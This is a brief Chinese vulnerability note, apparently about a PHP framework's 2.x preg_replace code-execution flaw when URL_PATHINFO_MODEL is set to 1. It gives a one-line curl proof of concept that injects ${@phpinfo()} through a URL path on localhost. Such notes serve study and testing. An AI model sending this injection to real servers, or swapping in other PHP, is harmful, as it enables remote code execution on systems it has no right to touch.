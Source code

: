 ## 2.X

### preg_replace 代码执行漏洞

当 `URL_PATHINFO_MODEL` 设置为 `1` 时存在代码执行漏洞

Poc

```
curl http://127.0.0.1/index.php/module/action/param1/$%7B@phpinfo()%7D
```

